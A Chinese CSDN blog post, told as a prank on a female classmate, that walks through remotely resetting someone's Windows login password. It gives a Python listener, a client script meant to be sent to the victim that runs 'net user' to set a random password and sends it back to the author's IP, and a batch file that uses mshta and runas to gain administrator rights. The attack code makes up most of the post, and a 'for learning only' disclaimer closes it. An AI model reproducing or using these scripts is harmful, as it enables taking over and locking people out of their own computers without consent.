 
--- 
title:  我用Python修改了班花的开机密码，重新登录后竟然发现了她的秘密！ 
tags: []
categories: [] 

---
<img src="https://img-blog.csdnimg.cn/img_convert/f832c281ee99a801e328d156bf9c9e69.png">

>  
  作者：五包辣条！ 
  https://blog.csdn.net/AI19970205/article/details/117417156 
 

## 前言

<img src="https://img-blog.csdnimg.cn/img_convert/3d7b8f8cee31a2115207e68bdbcfdb94.png">班花加我说她电话坏了让我看看，那肯定义不容辞！【兴奋了半个小时】没别的我就想秀一下技术！五分钟后我修好了，电脑重启之后显示输入密码，当时没多想直接走了。回去之后我能不能用技术远程解析一下这个开机密码呢，说干就干。

## 工具准备

开发环境：win10、python3.7开发工具：pycharm

## 项目思路解析

一想到远程，就想到创建连接，一想到创建链接，就想到socket套接字（一想到套接字，就联想到我没有女朋）<img src="https://img-blog.csdnimg.cn/img_convert/d76971207470d9c2f56d15b35eb23ba9.png">

该项目代码为3份（记住自己拿的是服务端的代码，客服端代码和go.cmd是发给别人的）

首先正常流程创建服务端的服务服务端流程：
- 创建套接字-绑定ip和端口-设置监听-等待链接-接受数据打印数据-关闭链接
```
    import socket  # 导入socket
    server = socket.socket(socket.AF_INET, socket.SOCK_STREAM) # 创建socket
    server.bind(('192.168.246.1', 44444))  # 绑定IP/端口
    server.listen(5)  # 监听
    print('***********等待连接*********')
    conn, addr = server.accept()  # 连接
    print(conn) 
    print('客户端的地址:', addr)
    client_msg = conn.recv(1024)
    print('客户端修改的密码是: %s' % client_msg)
    conn.close()
    server.close()

```

windows的修改电脑密码的命令：net User 用户名 修改的密码(可以自己动手试一下)<img src="https://img-blog.csdnimg.cn/img_convert/cd18a91500ca48dbfb94e5218c7675d5.png">

客户端流程：
- 创建套接字-连接服务端的IP和端口-获取当前使用的电脑账户名-生成随机的电脑密码-在终端执行修改Windows密码的指令-发送修改之后的密码-关闭套接字
```
    import socket  # 导入用到的模块
    import getpass
    import subprocess
    import random
    
    client = socket.socket(socket.AF_INET, socket.SOCK_STREAM) # 创建socket实例
    client.connect((ip, 端口))  # 连接server端IP地址/端口按你自己实际情况来
    user = getpass.getuser()  # 获取计算机用户名
    print(user)
    psd = ''
    for j in range(1, 9): # 生成1-9的随机数
        m = str(random.randrange(0, 10))
        psd = psd + m
    
    subprocess.Popen(['net', 'User', user, psd])  # 在本地执行（类似于cmd命令）
    client.send(psd.encode('utf-8'))  # 将密码发送给server端
    back_msg = client.recv(1024)
    client.close()  # 关闭socket

```

到这一步基本就可以自己去尝试了，但是要注意，当前代码只能修改权限是admin的账户。<img src="https://img-blog.csdnimg.cn/img_convert/f8012a3766f533c473d36e8700edad88.png">
- 还在翻呢！！！！！！！！**************************下面会有怎么修改非admin的内容嘛？？？？？？*****************
非admin用户需要提高自己的执行权限直接使用超级管理员权限执行cmd文件go.cmd

```
    @echo off
    %1 mshta vbscript:CreateObject("Shell.Application").ShellExecute("cmd.exe","/c %~s0 ::","","runas",1)(window.close)&amp;&amp;exit
    cd /d "%~dp0"
    
    start python client.py

```

## 小结

最后我修改密码成功登陆，竟然发现了她的密码！

<img src="https://img-blog.csdnimg.cn/img_convert/2038842899687a85549da1e8c745ba9f.png">这铁憨憨C盘满了都不知道清理，一看就是不太懂电脑的亚子！班花那么好看竟然不太懂电脑，真是惊人的发现哩！

**PS：最后我啥都没动改回去了！仅供学习技术交流！切勿违法违纪！本人不承担一切后果！**
